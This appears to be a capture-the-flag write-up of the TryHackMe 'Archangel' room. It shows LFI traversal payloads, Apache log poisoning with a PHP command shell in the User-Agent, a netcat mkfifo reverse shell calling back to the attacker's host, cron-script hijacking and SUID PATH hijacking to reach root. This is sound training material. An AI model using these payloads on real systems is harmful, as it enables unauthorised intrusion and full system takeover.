








# Archangel

[Archangel](https://tryhackme.com/room/archangel) is an ranked as an easy room on TryHackMe.com but it is a bit more difficult than the other easy rooms. Some of the concepts or methods might be completely new for beginners. Even I got to learn something new from this room. This room focuses on multiple things such as LFI and SUID binary exploitation.

So, lets begin!

## Enumeration

The first thing that we can do is start an `nmap` scan against the machine's IP address and check if some webpages are hosted over there using our web browser.



Here, we can see the domain name in the email address provided at the top of the page. We can definitely say that this must be the domain name of this website as well. So, we can add it to the `/etc/hosts` file as well.

```
┌──(kali㉿kali)-[~/Desktop/oscp/thm/archangel]
└─$ cat /etc/hosts                 
127.0.0.1	localhost
127.0.1.1	kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.10.189.248 *********.thm
```

Now, we can directly try to access the domain.



Just by access the webpage by its domain name, we got our 1st flag.

We can check out the `nmap` result as well:

```
┌──(kali㉿kali)-[~/Desktop/oscp/thm/archangel]
└─$ nmap -sS -p- -T4 -oN open_ports 10.10.189.248   
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-08 01:00 EDT
Warning: 10.10.189.248 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.189.248
Host is up (0.15s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
1481/tcp  filtered airs
30626/tcp filtered unknown
55807/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 963.58 seconds

──(kali㉿kali)-[~/Desktop/oscp/thm/archangel]
└─$ nmap -sC -sV -O -oN port_details -p22,80 10.10.189.248
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-08 01:18 EDT
Nmap scan report for mafialive.thm (10.10.189.248)
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/test.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.58 seconds
```

From the output it can be seen that only 2 ports are open which are 22 and 80. So, nothing interesting over here. But under port 80 we can see there is a disallowed entry for `/test.php` mentioned in the `robots.txt` file. 

We can visit the `/test.php` page to see if we can obtain some useful information.



On this page, we can't see much except a button which when clicked prints "Control is an illusion". But if we see closely, then when we click on the button the parameter `?view=/var/www/html/development_testing/mrrobot.php` gets added to the URL. The entire path of the page `mrrobot.php` is provided over here which appears to be a bit odd because normally relative paths can be used. 

## Gaining Access

We can test the `?view=` parameter for Local File Inclusion (LFI). We can test the following:

```http
?view=../../../../../etc/passwd
?view=....//....//....//....//....//etc/passwd
?view=....\\/....\\/....\\/etc/passwd
?view=..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

But none of these appear to be working. At this point, if we recall that when the button was clicked it displayed the entire path to the file. So, it might be the case that in the backend the entire path might be getting checked. In such a case we can change our payloads as:

```http
?view=/var/www/html/development_testing/....//....//....//....//....//...//etc/passwd%00
?view=/var/www/html/development_testing/../../../../../etc/passwd%00
?view=/var/www/html/development_testing/....\\/....\\/....\\/....\\/....\\/....\\/etc/passwd%00
?view=/var/www/html/development_testing/..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

But none of these work. The payload that worked was:

```http
?view=/var/www/html/development_testing/..//..//..//..//..//..//etc/passwd
```

This printed the entire content of the `/etc/passwd` file.

Now that we have found an LFI, our next target is to gain an reverse shell. For this we can look into the apache log file stored at `/var/log/apache2/access.log`.



From the access logs it can be seen that along with the path that we are trying to access our User-Agent is also getting logged. We can add a PHP code in the User-Agent header using Burp Suite and with the help of that gain a reverse shell.

> The output is not displayed properly on the webpage, so switch to `view-source` on your browser.

**Steps to get a Reverse Shell via User-Agent**

1. Capture a request to `/test.php?view=/var/www/html/development_testing/..//..//..//log/apache2/access.log` in Burp Suite and send it to repeater.

2. Add the following code somewhere in the `User-Agent` header value:

   ```php
   <?php system($_GET['cmd']); ?>
   ```

3. Append `&cmd=whoami` to the GET request. Here, all that we are doing is passing `whoami` string to the `cmd` variable would get processed by the PHP code in the User-Agent and we would get the output of the command in the logged User-Agent value in the `access.log` file. 

   

   > When you send the request for the first time, you won't see anything in the output because the command has just been executed and what you are viewing is the copy of log file before the output of your command was written to it. 
   >
   > Therefore, you need to send the same request again so that the output written previous can now be viewed.

4. Now, that we have found a way to run commands on the system. We can send a reverse shell payload using the same method and start a listener on our local machine.

   - Reverse shell payload:

     ```bash
     rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4444 >/tmp/f
     ```

   * We can send it as the value to the `cmd` variable in the GET request. (Don't forget to URL encode it before sending it from Burp Suite. This can be done by pressing the keys `CTRL + U` )

     

Finally, we have obtained the reverse shell.

## Horizontal Privilege Escalation

Now that we have access to the machine, we can start looking for the user flag. But before that we must convert this shell to a better looking one using the command:

```python
python3 -c 'import pty; pty.spawn("/bin/bash");'
```

> You can try with `python` also but it won't work as only `python3` is installed on the machine.

```bash
www-data@ubuntu:/var/www/html/development_testing$ cd /home
cd /home
www-data@ubuntu:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root      root      4096 Nov 18 13:06 .
drwxr-xr-x 22 root      root      4096 Nov 16 15:39 ..
drwxr-xr-x  6 archangel archangel 4096 Nov 20 15:22 archangel
www-data@ubuntu:/home$ cd archangel
cd archangel
www-data@ubuntu:/home/archangel$ ls -la
ls -la
total 44
drwxr-xr-x 6 archangel archangel 4096 Nov 20 15:22 .
drwxr-xr-x 3 root      root      4096 Nov 18 13:06 ..
-rw-r--r-- 1 archangel archangel  220 Nov 18 00:48 .bash_logout
-rw-r--r-- 1 archangel archangel 3771 Nov 18 00:48 .bashrc
drwx------ 2 archangel archangel 4096 Nov 18 13:08 .cache
drwxrwxr-x 3 archangel archangel 4096 Nov 18 11:20 .local
-rw-r--r-- 1 archangel archangel  807 Nov 18 00:48 .profile
-rw-rw-r-- 1 archangel archangel   66 Nov 18 11:20 .selected_editor
drwxr-xr-x 2 archangel archangel 4096 Nov 18 01:36 myfiles
drwxrwx--- 2 archangel archangel 4096 Nov 19 20:41 secret
-rw-r--r-- 1 archangel archangel   26 Nov 19 19:57 user.txt
www-data@ubuntu:/home/archangel$ cat user.txt
```

And there we get our user flag. So, we can now start for privilege escalation. 

For starters, we can look into the files present in this directory as it appears that there might be some sensitive information stored here.

```bash
www-data@ubuntu:/home/archangel$ cd myfiles
cd myfiles
www-data@ubuntu:/home/archangel/myfiles$ ls -la
ls -la
total 12
drwxr-xr-x 2 archangel archangel 4096 Nov 18 01:36 .
drwxr-xr-x 6 archangel archangel 4096 Nov 20 15:22 ..
-rw-r--r-- 1 root      root        44 Nov 18 01:35 passwordbackup
www-data@ubuntu:/home/archangel/myfiles$ cat passwordbackup
cat passwordbackup
https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

It can be seen that we do not have access to the `secret` folder but when we access the `myfiles` directory we can see a file named as `passwordbackup` which contains nothing but a link to a YouTube video. Also, it appears to be a bit odd that this file is owned by `root`.

For further enumeration, we can check the cronjobs running on the system.

```bash
www-data@ubuntu:/home/archangel/myfiles$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

Here, we can see that a shell script named as `helloworld.sh` in the `/opt` directory is being executed as user archangel. We can check the permissions of that file and try to use it to gain access to the system as user archangel.

```bash
www-data@ubuntu:/home/archangel/myfiles$ ls -la /opt/helloworld.sh
ls -la /opt/helloworld.sh
-rwxrwxrwx 1 archangel archangel 66 Nov 20 10:35 /opt/helloworld.sh
```

From the output, we can see that all the `rwx` permissions are given to others. So, we can edit this file, add a payload in the bash script to create a reverse shell as user archangel. For this we can again use the same payload but change the port number

```bash
www-data@ubuntu:/opt$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4445 >/tmp/f" > /opt/helloworld.sh
```

 As soon as the cronjob gets executed we get our reverse shell

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.56.217] 51610
sh: 0: can't access tty; job control turned off
$ whoami
archangel
$ id
uid=1001(archangel) gid=1001(archangel) groups=1001(archangel)
$ pwd
/home/archangel
```

Again, we can use the `python3` one liner code to make this shell look better. Then we can attempt to access the restricted files.

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
archangel@ubuntu:~$ cd secret
cd secret
archangel@ubuntu:~/secret$ ls -la
ls -la
total 32
drwxrwx--- 2 archangel archangel  4096 Nov 19 20:41 .
drwxr-xr-x 6 archangel archangel  4096 Nov 20 15:22 ..
-rwsr-xr-x 1 root      root      16904 Nov 18 16:40 backup
-rw-r--r-- 1 root      root         49 Nov 19 20:41 user2.txt
archangel@ubuntu:~/secret$ cat user2.txt
```

In the `secret` directory, we get the `user2.txt` flag as well. But apart from that we can see an interesting file named `backup`. It is interesting because its SUID bit is set and moreover it is owned by `root`. So, if we manage to exploit this binary then we can get access to the machine as `root`. 

In normal case of SUID bit set binaries we can go to GTFOBins and look up for a privesc method but this appears to be a custom binary, so GTFOBins won't be helpful.

So, we can start analyzing the binary itself. As the first step, we can run `strings` over the binary and see if we can find something useful.

```bash
archangel@ubuntu:~/secret$ strings backup
strings backup
/lib64/ld-linux-x86-64.so.2
setuid
system
__cxa_finalize
setgid
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
cp /home/user/archangel/myfiles/* /opt/backupfiles
:*3$"
GCC: (Ubuntu 10.2.0-13ubuntu1) 10.2.0
/usr/lib/gcc/x86_64-linux-gnu/10/../../../x86_64-linux-gnu/Scrt1.o
```

Here, we can see that files from directory `/home/user/archangel/myfiles/*` are being copied to `/opt/backupfiles`. Here as we can see a wildcard(`*`) is being used, we can try to exploit it in a similar way as it can be done for `tar` command. But after searching a lot over the internet, we can't find any wildcard privilege escalation for `cp`. 

We can also try to create a file in the source directory but that won't be of any use as we won't be able to execute it as well as we are not allowed to create a directory in `/home`. So, we need to look for something else.

We can check the `/opt/backupfiles` as well to get some more hint. But again nothing useful can be found over there.

After giving in a lot of time and re-analyzing everything. We can see the answer was right in front of us. In the `backup` binary. The command `cp` is being called but without its full path being mentioned. So, we can create a fake `cp` executable in and prepend its location to `$PATH`. So, whenever `cp` is called our malicious binary gets executed instead of the original `cp` command. This can be done as:

1. Create a fake `cp` file in `/tmp` directory and add the following code to it.

   ```bash
   archangel@ubuntu:/opt/backupfiles$ cd /tmp
   cd /tmp
   archangel@ubuntu:/tmp$ touch cp
   touch cp
   archangel@ubuntu:/tmp$ echo "/bin/bash -p" > cp
   echo "/bin/bash -p" > cp
   archangel@ubuntu:/tmp$ cat cp
   cat cp
   /bin/bash -p
   ```

   So, whenever the `cp` command is called `/bin/bash` would get executed with the permission of the effective user (in case of SUID binary, it would be `root`).

2. Make the file accessible and executable by all

   ```bash
   archangel@ubuntu:/tmp$ chmod 777 cp
   ```

3. Prepend `/tmp` to `$PATH`

   ```bash
   archangel@ubuntu:~/secret$ $PATH            
   $PATH
   bash: /usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin: No such file or directory
   archangel@ubuntu:~/secret$ export PATH=/tmp:$PATH
   export PATH=/tmp:$PATH
   archangel@ubuntu:~/secret$ $PATH
   $PATH
   bash: /tmp:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin: No such file or directory
   ```

4. Run the SUID binary

   ```bash
   archangel@ubuntu:~/secret$ ./backup
   ./backup
   root@ubuntu:~/secret# whoami
   whoami
   root
   root@ubuntu:~/secret# cd /root
   cd /root
   root@ubuntu:/root# cat root.txt
   ```

And we get the access to the machine as `root`!

## Some Key Points to Take Away

1. Whenever you suspect an LFI, try different method with both relative and absolute addressing.
2. Always look for files with misconfigured file permission.

## Mind Maps

1. Enumeration

   

2. Privilege Escalation

   

## References

1. [TryHackMe: Archangel](https://tryhackme.com/room/archangel)
2. [HackTricks.xyz - LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion#basic-rfi)
3. [LFI to RCE via PHP Session](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)

